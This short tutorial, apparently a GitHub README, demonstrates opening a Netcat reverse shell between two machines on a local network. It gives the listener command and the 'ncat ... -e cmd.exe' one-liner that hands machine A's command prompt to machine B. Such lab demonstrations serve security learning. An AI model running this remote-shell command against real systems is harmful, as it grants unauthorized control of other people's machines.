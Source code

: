 We demonstrate how to open a remote shell through `Netcat`, allowing us to navigate the directories of a physical machine `A` using another physical machine `B` on the same local network.

To open a reverse shell, we need the IP address of physical machine `B` from which we will open the remote shell:

<img src="1.png" width="650">

The address is `172.20.10.4`.

Now we open a listener on port `5555` of physical machine `B` using the command `ncat -nlvp 5555`:

<img src="2.png" width="650">

From physical machine `A`, we run the command `ncat 172.20.10.4 5555 -e cmd.exe` to open a remote shell to physical machine `B`'s address:

<img src="3.jpeg" width="650">

From physical machine `B`, we can see that the connection was successful, and we can navigate the directories of physical machine `A`:

<img src="5.png" width="650">